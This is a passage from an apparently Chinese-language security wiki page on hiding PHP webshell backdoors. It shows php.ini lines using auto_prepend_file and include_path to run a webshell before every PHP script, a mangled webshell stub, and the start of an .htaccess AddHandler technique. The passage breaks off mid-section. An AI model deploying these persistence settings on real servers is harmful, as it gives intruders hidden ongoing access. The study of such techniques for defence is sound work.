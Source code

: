 ### 0x1:  php.ini隐藏后门

这是php的核心配置文件

在php.ini 中添加:

```php
; Automatically add files before PHP document.
; http://php.net/auto-prepend-file
auto_prepend_file = choop.php
; (auto_prepend_file是在任意PHP脚本的头部)
; (auto_append_file是在任意PHP脚本的尾部)
; (不管头部还是尾部，webshell都能被正常执行)

; LittleHann
include_path = "E:\wamp\www\shell;."
;我们所要include的文件目录放在根目录的前边。不然的话apache会在根目录下搜索我们的后门(当然是没有了从而导致服务器解析php文件失败)
```

在"E:\wamp\www\shell"中创建 choop.php: `1]); ?>`&#x20;

这样可以将webshell藏在磁盘上的任意位置，不一定是要web目录，然后在整个服务器运行期间放置后门

对于这种利用php.ini的webshell部署攻击方式，我们在做攻防研究的时候一定要明白它的攻防场景，一般来说，只有黑客具有了远程修改文件或者已经拿到了目标主机的权限，为了之后的隐蔽访问，而采取的在php.ini中部署一个"后门"，也就是说这种webshell部署更倾向于后门的目的

### 0x2:  .htaccess文件构成的PHP后门

.htaccess是apache的分布式配置文件，.htaccess文件(或者"分布式配置文件")提供了针对不同WEB应用对应的子目录改变配置的方法

.htaccess files (or "distributed configuration files") provide a way to make configuration changes on a per-directory basis. A file, containing one or more configuration directives, is placed in a particular document directory, and the directives apply to that directory, and all subdirectories thereof.

.htaccess文件可以看成是apache核心配置文件的一个子集，按照"就近原则"，.htaccess中的指令可以对httpd.conf进行覆盖，前提是httpd.conf中开启了允许覆盖的开关

在.htaccess中有很多"指令"，详细的指令作用可以参阅官方给出的doc，这里我们重点学习和部署后门WEBSHELL有关的以下几条指令

{% tabs %}
{% tab title="AddHandler" %}
[http://httpd.apache.org/docs/2.2/mod/mod\_mime.html#addhandler](http://httpd.apache.org/docs/2.2/mod/mod\_mime.html#addhandler)&#x20;

1. Description: Maps the filename extensions to the specified handler
2. Syntax: AddHandler handler-name extension \[extension] ...&#x20;
3. Context: server config, virtual host, directory, .htaccess&#x20;
4. Override: FileInfo&#x20;
5. Status: Base&#x20;
6. Module: mod\_mime&#x20;

example: AddHandler php5-script .logs \
将对.logs的后缀文件解析映射到PHP脚本解析器上
{% endtab %}

{% tab title="AddType" %}
[http://httpd.apache.org/docs/2.2/mod/mod\_mime.html#addhandler](http://httpd.apache.org/docs/2.2/mod/mod\_mime.html#addhandler)&#x20;
